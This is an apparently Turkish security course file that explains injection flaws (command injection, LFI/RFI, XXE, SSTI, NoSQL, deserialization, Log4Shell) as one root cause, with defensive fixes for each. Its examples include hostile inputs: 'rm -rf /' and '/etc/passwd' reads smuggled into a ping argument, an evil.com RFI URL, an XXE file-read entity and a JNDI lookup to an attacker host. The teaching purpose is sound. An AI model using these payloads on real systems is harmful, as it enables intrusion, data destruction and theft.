



# 🧬 Enjeksiyon Aileleri ve Ortak Kök Neden

SQLi ve XSS'i ayrı ayrı gördük. Bu dosya onları ve akrabalarını (command injection, LFI/RFI, LDAP/NoSQL/template injection) tek bir çatı altında birleştirir. Amaç: **tek bir kök nedeni** görmek, çünkü onu gören her yeni enjeksiyon türünü hızla anlar ve savunmasını genelleştirir.

> Kardeş dosyalar: [sqli.md](sqli.md), [xss.md](xss.md). Bellek düzeyindeki kardeşi: [bellek-zafiyetleri-giris.md](../../03-isletim-sistemi-ici/bellek-zafiyetleri-giris.md).

---

## 1. Tek kök neden: kod ile verinin karışması

Tüm enjeksiyon zafiyetlerinin özü **tek cümledir:**

> **Saldırganın kontrol ettiği "veri", bir yorumlayıcı tarafından "kod/komut" olarak yorumlanıyor.**

Bir yorumlayıcı (interpreter) — SQL motoru, işletim sistemi shell'i, tarayıcı, LDAP sunucusu, şablon motoru — kendisine gelen metni ayrıştırıp çalıştırır. Eğer uygulama, kullanıcı verisini bu metnin **yapısına** karıştırırsa, kullanıcı o yapıyı değiştirebilir.



---

## 2. Aile üyeleri

### Command Injection (OS komut enjeksiyonu)
Uygulama, kullanıcı girdisini bir **işletim sistemi komutuna** karıştırırsa, saldırgan ek komut ekleyebilir.
```python
# ZAFİYETLİ — girdi doğrudan shell komutuna
ip = request.form['ip']
os.system(f"ping -c 1 {ip}")     # girdi: 8.8.8.8; rm -rf /  → iki komut çalışır!
```
`8.8.8.8; cat /etc/passwd` → `;`, `|`, `&&`, `$(...)` gibi shell metakarakterleriyle ek komut çalıştırılır. En yüksek etkili tür — genelde doğrudan **RCE** (uzaktan kod çalıştırma).

**Önleme:**
```python
# GÜVENLİ — shell'i hiç kullanma; argümanları liste olarak, shell=False ile geçir
import subprocess
subprocess.run(["ping", "-c", "1", ip], shell=False, timeout=5)
# + girdi doğrulama: ip gerçekten IP formatında mı?
```

### LFI / RFI (Local/Remote File Inclusion) ve Path Traversal
Uygulama, kullanıcı girdisiyle **dosya yolu** oluşturursa:
```
/goster?sayfa=hakkinda.php        → normal
/goster?sayfa=../../../../etc/passwd   → LFI (yerel dosya okuma)
/goster?sayfa=http://evil.com/shell.txt → RFI (uzak kod dahil etme → RCE)
```
- **LFI:** Yerel hassas dosyaları okuma (`/etc/passwd`, log, config); log poisoning ile RCE'ye tırmanabilir.
- **RFI:** Uzaktan kod dahil etme → doğrudan RCE (modern yapılandırmalarda çoğunlukla kapalı).
- **Path traversal:** `../` ile dizin dışına çıkma.

**Önleme:** Dosya adını **allow-list**'ten seç (kullanıcı girdisini yola koyma), `../` normalize et, taban dizini zorla.

> **Kesişim — LFI + dosya yükleme = RCE:** LFI tek başına dosya *okur*; ama saldırgan önce içine PHP kodu gömülü bir "resim" **yükleyip** ([dosya-yukleme-webshell.md](dosya-yukleme-webshell.md)) sonra o dosyayı LFI ile `include` ettirirse, okuma çalıştırmaya döner — iki orta-şiddetli kusurun zincirlenip RCE ürettiği klasik örnek.

### LDAP / NoSQL / XPath Injection
Aynı desen farklı yorumlayıcılarda:
- **NoSQL (MongoDB):** `{"user": {"$ne": null}}` ile kimlik atlatma.
- **LDAP:** `*)(uid=*` ile filtre manipülasyonu.
- **XPath:** XML sorgusu manipülasyonu.

### XXE (XML External Entity)
XML formatı, belge içinde **entity** (varlık — bir tür kısaltma/değişken) tanımlamaya izin verir; dahası, bir entity'nin değerini **dış bir kaynaktan** (`SYSTEM`) çekebilir. Bir uygulama, kullanıcının gönderdiği XML'i **dış entity çözümlemesi açık** bir ayrıştırıcıyla işlerse, saldırgan ayrıştırıcıyı kendi lehine yönlendirir — yine aynı tema: veri (XML gövdesi), ayrıştırıcı için **komuta** dönüşür.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stok><urun>&xxe;</urun></stok>
<!-- Ayrıştırıcı &xxe;'yi /etc/passwd içeriğiyle değiştirir → yerel dosya okuma -->
```

Etki üç yöne açılır:
- **Yerel dosya okuma:** `file:///etc/passwd`, config, kaynak kodu — yukarıdaki **LFI**'nin XML ayrıştırıcı üzerinden akrabası (aynı sonuç, farklı yorumlayıcı).
- **SSRF'e dönüşme:** `SYSTEM "http://169.254.169.254/latest/meta-data/..."` ile ayrıştırıcıyı **iç ağa/bulut meta-veri servisine** bağlatma — doğrudan [SSRF](csrf-ssrf.md) (Server-Side Request Forgery) yüzeyi; Capital One tarzı bulut kimlik bilgisi hırsızlığına köprü.
- **Blind/OOB XXE:** Çıktı ekrana dönmese bile, harici bir DTD ile veriyi saldırganın sunucusuna **dışarı sızdırma** (out-of-band) — [sqli.md](sqli.md)'deki blind/OOB SQLi mantığının XML karşılığı.

**Önleme:** Filtrelemeye çalışma; **dış entity ve DTD işlemesini ayrıştırıcıda tamamen kapat** (ör. Java'da `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`, Python'da `defusedxml`). Bu, Log4Shell'de `formatMsgNoLookups` ile aynı savunma refleksidir: **tehlikeli özelliği kapat**, girdiyi kovalama.

### SSTI (Server-Side Template Injection)
Kullanıcı girdisi bir **şablon motoruna** (Jinja2, Twig) kod olarak geçerse:
```
{{7*7}}  → 49 dönerse şablon enjeksiyonu var → {{config}} → RCE'ye tırmanır
```

### Deserialization (güvensiz serileştirme çözme) — vaka çalışması: Log4Shell

Bu, ailenin **en soyut ama en yıkıcı** üyesidir çünkü girdi hiç "kod gibi görünmez" — sıradan bir veri yapısı (obje, log satırı) gibi görünür ve tam da bu yüzden fark edilmesi zordur.

**Mekanizma (genel):** Bir program, bir veri yapısını (obje) bir bayt dizisine çevirip saklar/gönderir ("serileştirme"), sonra geri okur ("deserileştirme" — deserialization). Bazı diller/kütüphaneler, deserileştirme sırasında **saklanan tür bilgisine güvenip** o türün kodunu (constructor, `__wakeup`, `readObject` gibi yaşam döngüsü metodları) **otomatik çalıştırır**. Saldırgan, meşru bir veri yerine **kötü niyetli bir obje grafiği** (gadget chain) gönderirse, deserileştirme onu sessizce "veri" olarak değil "çalıştırılacak kod" olarak işler — yine aynı tema: **girdi kod olarak yorumlanıyor.**

```python
# ZAFİYETLİ — pickle, Python'da deserileştirirken KEYFİ KOD çalıştırabilir
import pickle
veri = pickle.loads(guvenilmeyen_bayt_dizisi)   # ASLA güvenilmeyen kaynaktan pickle.loads

# GÜVENLİ — JSON, veri formatıdır; kod çalıştırma yeteneği YOKTUR
import json
veri = json.loads(guvenilmeyen_metin)            # sadece string/sayı/liste/dict üretir, kod çalıştırmaz
```
> **Neden JSON güvenli, pickle değil:** JSON bir **veri formatıdır** — ayrıştırıcı yalnızca sabit bir gramerden (string, sayı, dizi, obje) üretim yapar, hiçbir noktada "şimdi şu kodu çalıştır" diyemez. `pickle` (ve Java'nın yerleşik serileştirmesi) ise **rastgele sınıfları örnekleyip yaşam döngüsü metodlarını çağırabilir** — yani formatın kendisi "kod çalıştırma" yeteneğine sahiptir. Bu, [00-baslangic/bilgisayar-temelleri.md](../../00-baslangic/bilgisayar-temelleri.md)'deki "kodlama ≠ şifreleme ≠ çalıştırma" ayrımının ileri bir hâlidir: JSON *kodlar*, pickle *çalıştırır*.

**Vaka çalışması — Log4Shell (CVE-2021-44228, Aralık 2021):** Milyonlarca Java uygulamasının kullandığı **Log4j** loglama kütüphanesi, log mesajları içinde `${jndi:...}` biçiminde bir **arama sözdizimini** (lookup) destekliyordu — amaç, loglara dinamik değer (ortam değişkeni gibi) eklemekti.



**Adım adım:** (1) Saldırgan, uygulamanın **loglayacağı herhangi bir alana** (User-Agent başlığı, kullanıcı adı, arama kutusu — yukarıdaki §1'deki "girdi her yerden gelebilir" temasının kanıtı) `${jndi:ldap://saldirgan.com/x}` yazar. (2) Log4j, bu string'i loglarken **düz metin sanmaz**, içindeki `${jndi:...}` sözdizimini bir **komut** olarak tanır ve saldırganın sunucusuna bağlanır. (3) Saldırganın sunucusu, kötü niyetli bir Java nesnesi döndürür. (4) Uygulama bu nesneyi **deserileştirip çalıştırır** — tam RCE.

> **Neden bu kadar yıkıcıydı:** (a) Log4j hemen her Java uygulamasında (Minecraft'tan kurumsal yazılımlara) vardı → saldırı yüzeyi devasa. (b) Sömürü tetikleyicisi **herhangi bir loglanan metindi** — saldırgan HTTP başlığına, form alanına, hatta bir sohbet mesajına bu string'i koyarak tetikleyebiliyordu; enjeksiyon noktası sayısı pratikte sonsuzdu. (c) Kök neden yine aynıydı: **loglama gibi "zararsız" bir işlev, girdiyi kod olarak yorumluyordu** — SQLi'deki `'` karakterinin sorgu yapısını bozması ([sqli.md](sqli.md)) ile aynı tema, farklı bir yorumlayıcıda (Log4j'nin lookup motoru).

**Savunma:** (1) Deserileştirmede **asla güvenilmeyen kaynağa güvenme** — mümkünse JSON gibi kod-çalıştıramayan formatlar kullan. (2) Log4j'de: `log4j2.formatMsgNoLookups=true` veya versiyon yükseltme (2.17.1+). (3) Genel olarak: "bu sadece bir log mesajı, zararsız" varsayımı yanlıştı; aşağıdaki §3'teki ortak ilke (kod/veriyi ayır, en az ayrıcalık, allow-list) burada da geçerlidir. (4) Bağımlılık taraması (SCA → [13-guvenli-kodlama-devsecops/devsecops-ssdlc.md](../../13-guvenli-kodlama-devsecops/devsecops-ssdlc.md)) — Log4Shell, OWASP Top 10:2025'in [A03 Software Supply Chain Failures](../owasp-top10-tam-rehber.md)'in ders kitabı örneğidir: sen hiç kod yazmasan bile, kullandığın **bir bağımlılık** seni RCE'ye açabilir.

---

## 3. Nüans: neden hepsi aynı savunmayı paylaşır?

Farklı yorumlayıcılar ama **aynı savunma felsefesi:**



| Yorumlayıcı | "Ayırma" savunması |
|-------------|--------------------|
| SQL | Parametreli sorgu (prepared statement) |
| OS shell | `subprocess` + argüman listesi, `shell=False` |
| Tarayıcı (HTML) | Output encoding / `textContent` / güvenli framework |
| Dosya sistemi | Allow-list dosya seçimi |
| Şablon motoru | Kullanıcı girdisini şablon **derlemesine** sokma |

> **Kritik ders — neden kara liste (blacklist) başarısız olur:** Kötü desenleri ("`OR`", "`<script>`", "`;`", "`../`") engellemeye çalışmak, saldırganın sonsuz atlatma yüzeyine (kodlama, büyük/küçük harf, alternatif söz dizimi) karşı **her zaman kaybeder**. Doğru yaklaşım: ya kod/veriyi yapısal olarak ayır (parametreleme) ya da **izin verileni** tanımla (allow-list). "Neyin kötü olduğunu" değil, "neyin iyi olduğunu" listele.

---

## 4. Saldırı–savunma kesişimi (bütünsel)

- Bir pentester bir uygulamaya baktığında, "girdi nereye gidiyor?" diye sorar: bir sorguya mı (SQLi), bir komuta mı (cmd injection), sayfaya mı (XSS), dosya yoluna mı (LFI)? Kök neden aynı olduğu için **test refleksi de aynıdır**: özel karakter (`'`, `;`, `<`, `../`, `{{`) koy, davranış değişikliğini gözle.
- Bir savunmacı/geliştirici için ödül daha büyük: kök nedeni içselleştiren biri, hiç duymadığı yeni bir enjeksiyon türüyle (yeni bir yorumlayıcı) karşılaşınca bile doğru refleksi (ayır, allow-list, en az ayrıcalık) uygular.
- Bu birleşik bakış, [bellek zafiyetlerine](../../03-isletim-sistemi-ici/bellek-zafiyetleri-giris.md) kadar uzanır: buffer overflow da "veri (girdi) kod (dönüş adresi/komut) gibi yorumlanıyor" temasının bellek katmanındaki hâlidir.
- **Ailenin en yeni üyesi — prompt injection:** Aynı kök neden, büyük dil modellerinde (LLM) **prompt injection** olarak karşımıza çıkar: model, geliştiricinin "talimatı" (kod) ile kullanıcının/harici verinin (data) arasındaki sınırı ayıramaz, saldırgan da veriye gizlediği talimatla modeli kaçırır. OWASP bunu "GenAI/LLM Top 10"un bir numaralı riski yaptı; AI güvenliğine geçmek isteyenler için buradaki enjeksiyon refleksi doğrudan transfer olur → [15-projeler/spesifikasyon-sonrasi-yol-haritasi.md](../../15-projeler/spesifikasyon-sonrasi-yol-haritasi.md) (AI Security).

---

## 5. Özet

- **Tek kök neden:** Saldırgan verisinin kod/komut olarak yorumlanması.
- **Aile:** SQLi, command injection, XSS, LFI/RFI, LDAP/NoSQL/XPath, XXE, SSTI, deserialization — hepsi aynı temanın farklı yorumlayıcılardaki hâli.
- **Ortak savunma:** Kod/veriyi **ayır** (parametreleme), **allow-list** ile doğrula, bağlama göre **kodla**, **en az ayrıcalıkla** çalıştır.
- **Altın kural:** Kara liste değil, ayırma + izin listesi.

> **Modül 04 devam:** [../burp-suite-rehberi.md](../burp-suite-rehberi.md) (araç), sonra [../pratik-lab/juice-shop-notlari.md](../pratik-lab/juice-shop-notlari.md) (uygulama).
